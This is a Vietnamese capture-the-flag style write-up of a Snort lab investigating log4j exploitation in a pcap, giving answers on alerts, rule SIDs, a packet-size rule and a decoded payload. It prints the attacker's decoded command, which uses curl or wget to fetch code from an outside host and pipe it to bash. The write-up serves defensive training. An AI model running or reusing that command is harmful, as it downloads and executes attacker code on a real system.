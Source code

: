 ## Trả lời các câu hỏi dưới đây
Điều hướng đến thư mục tác vụ.

Sử dụng  tệp pcap được cung cấp.

Sử dụng tệp quy tắc được cung cấp ( local.rules ) để điều tra việc khai thác log4j.

**Cau 1:** Số lượng gói tin được phát hiện là bao nhiêu?

26

**Cau 2:** Kiểm tra  các tập tin nhật ký/báo động.

Có bao nhiêu quy tắc đã được kích hoạt?
**Mỗi alert có 1 sid riêng**
![alt text](../png/SnortChall/snc20.png)
4


**Cau 3:** Kiểm tra  các tập tin nhật ký/báo động.
Sáu chữ số đầu tiên của sid quy tắc được kích hoạt là gì?

210037


**Cau 4:** Xóa các tệp nhật ký và cảnh báo trước đó.

Sử dụng  tệp local-1.rules  trống để viết quy tắc mới nhằm phát hiện các gói tin có kích thước từ 770 đến 855 byte .

Số lượng gói tin được phát hiện là bao nhiêu?
![alt text](../png/SnortChall/snc21.png)
>41



**Cau 5:** Kiểm tra  các tập tin nhật ký/báo động.

Tên của thuật toán mã hóa được sử dụng là gì ?

**Dùng** `sudo strings snort.log.1689857521`
![alt text](../png/SnortChall/snc22.png)
>**Base64**


**Cau 6:** Kiểm tra  các tập tin nhật ký/báo động.

ID IP của gói tin tương ứng là  gì ? 
**Dùng** `sudo strings alert | grep -e 45.155.205.233 -e ID`
![alt text](../png/SnortChall/snc23.png)

> **62808** 


Kiểm tra  các tập tin nhật ký/báo động.

Giải mã lệnh được mã hóa.

Lệnh của kẻ tấn công là gì?
**B1**
![alt text](../png/SnortChall/snc24.png)
**B2** giải mã
![alt text](../png/SnortChall/snc25.png)
>**(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash**


**Cau 7:** Điểm CVSS v2 của lỗ hổng Log4j là bao nhiêu?
tra gg
>**9.3**

